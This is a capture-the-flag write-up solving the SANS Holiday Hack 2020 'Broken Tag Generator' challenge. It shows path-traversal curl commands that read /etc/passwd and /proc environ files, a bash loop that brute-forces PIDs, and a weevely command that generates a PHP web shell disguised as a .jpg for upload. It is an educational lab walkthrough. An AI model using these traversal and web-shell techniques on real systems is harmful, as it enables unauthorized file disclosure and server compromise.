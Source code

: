 # Objective 8 – Broken Tag Generator #

## OBJECTIVE: ##
>Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable `GREETZ`? Talk to Holly Evergreen in the kitchen for help with this.
#  

## Hints ##
<details>
  <summary>Hints provided for Objective 8</summary>
 
>-	**HOLLY EVERGREEN:** If you find a way to execute code blindly, I bet you can redirect to a file then download that file!
>-	**HOLLY EVERGREEN:** We might be able to find the problem if we can get source code!
>-	**HOLLY EVERGREEN:** Once you know the path to the file, we need a way to download it!
>-	**HOLLY EVERGREEN:** Can you figure out the path to the script? It's probably on error pages!
>-	**HOLLY EVERGREEN:** If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!
>-	**HOLLY EVERGREEN:** Is there an endpoint that will print arbitrary files?
>-	**HOLLY EVERGREEN:** I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?
>-	**HOLLY EVERGREEN:** Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!


</details>

#  
## PROCEDURE: ##
Holly Evergreen and Noel Boetie both seem to think the problem is related to the **file upload** feature of the tag generator – so let’s start by looking at that.

If we upload an image and look at the network events in the Firefox console, we see that the image file is renamed and is stored at a URI that looks similar to ``https://tag-generator.kringlecastle.com/image?id=f3870e1f-7f10-49c1-a84f-1a11c7ed71b1.jpg``  This looks like it might be vulnerable to LFI?

Sure enough – it is! I try ``# curl https://tag-generator.kringlecastle.com/image?id=../../../../../../../../etc/passwd`` and I have the contents of the `passwd` file – that must be a step in the right direction 😊
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/5bba3621-6c27-4ea4-bbdc-69da90a9d15a)

If I try to upload a script file (eg. php) to the tag generator I get an error message:
```
Error in /app/lib/app.rb: Unsupported file type: /tmp/RackMultipart20201231-1-1m1x12e.php 
```

So this tells me that the uploaded files are being processed by a Ruby application called `app.rb` stored in the `/app/lib` sub-directory
Ok... so let’s try to curl into the script:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../../../../app/lib/app.rb
```
We now have accss to the script’s code!

Looking at the code it looks like it’s actually intended to support uploading and extracting zip files so maybe we can upload a payload as zip?  It also looks like the script looks for a file with a .jpg, .jpeg or .png extension once it is uncompressed.

For some reason the check for invalid characters in the filename is commented out – this is probably a hint.
I also note that extracted files are being saved to `#{ TMP_FOLDER }/#{ entry.name }` from the declarations at the start of the Ruby script I can also tell that the `TMP_FOLDER` is referring to the `/tmp/ direcotry`.

Google tells us that Ruby environment variables are stored in `/proc/PID/environ` – but how do I find out the PID?  I’m sure there’s a smart way to go about this but I decided to bruteforce it usign a quick bash script
```
#!/bin/bash
for ((i=0; i<=32768; i++))
do
  echo $i
  curl https://tag-generator.kringlecastle.com/image?id=../../../../proc/$i/environ
done
```

I ran the script and piped the output tot a text file and left for a five hour long New Year’s Day lunch
```
./tagscript.sh >> tagoutput.txt
```

On my return I looked at the contents of `tagoutput.txt` and realise that I hit a match with the 7th try and that PIDs `7` to `26` all gave valid outputs  (so maybe brute force was the right way to go in this case after all).
```
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app8
```
And there it is – plain as day:  **`GREETZ=JackFrostWasHere`**

### Note ###
I have a hunch that this webapp can also be compromised by remote code execution (RCE).  So I create a payload in `weevely` ending with a .jpg extension:
```
weevely generate pwnage /root/uploadmeplease.jpg
```
I compress this ‘.jpg’ as a zip file and upload it to the tag generator.

Now I should be able to find `uploadmeplease.jpg` in the `/tmp/` directory.  And sure enough, running ``curl https://tag-generator.kringlecastle.com/image?id=../tmp/uploadmeplease.jpg`` shows me the php script – muahahaha.

Although I thought it would be plain sailing from here on out, unfortunately I got stuck – although `curl` requests show me the contents of the php script, normal https requests in a browsers return a 404 error and so does trying to establish a weevely session.

I must be missing something really simple here.
